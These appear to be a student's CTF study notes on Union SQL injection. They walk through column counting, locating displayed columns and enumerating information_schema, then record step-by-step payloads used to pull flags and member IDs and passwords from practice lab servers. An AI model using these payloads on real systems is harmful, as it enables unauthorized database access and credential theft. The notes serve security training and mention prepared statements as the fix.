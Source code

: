 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on Javascript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where use data in database
2. The data display or not
- Display = Board
- Not display = loginm, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other table
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use select function again and the column number must be the same
ex) select pass from member union select id from member
ex) selct id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)
2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>
a. Find out the point of the SQL Injection
  - 1234' or '1' ='1<br>
b. Find the number of columns
  - 1234' order by 4 #<br>
c. Find the number of print column locations
  - 1234' union select 1,2,3,4 #<br>
d. Find DB name
  - 1234' union select database(),2,3,4 #<br>
e. Find Table name
  - 1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #<br>
f. Find column name
  - 1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #<br>
g. Find Data
  - 0000' union select id,pass,email,info from member where id = 'doldol' #<br>

4. CTF questions<br>
a. SQL Injection 1
* Find out the point of the SQL Injection = ad%' and 1=1 #
* Find out the number of columns = ad%' order by 4 #
* Find out the number of print column locations = ad%' union select 1,2,3,4 #
* Find DB name = ad%' union select database(),2,3,4 #  => 	sqli_1
* Find table name = ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
* Find column name = ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
* Find data = ad%' union select flag, 2, 3, 4 from flag_table #

b. SQL Injection 
* The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
* The number of columns? = admin' order by 6 #
* location? = admin' union select 1,2,3,4,5,6 #   => only showing "6"
* database? = admin' union select 1,2,3,4,5,database() #    => sqli_5
* table? = admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     => flag_honey
* column name? = admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #   => flag
* data? = admin' union select 1,2,3,4,5,flag from flag_honey #    => 	kkkkkkk_Not Here!
* admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
  - Find hidden information (https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
* admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
* admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
* admin' union select 1,2,3,4,5,group_concat(flag) from secret #

4. Web development
- mypage
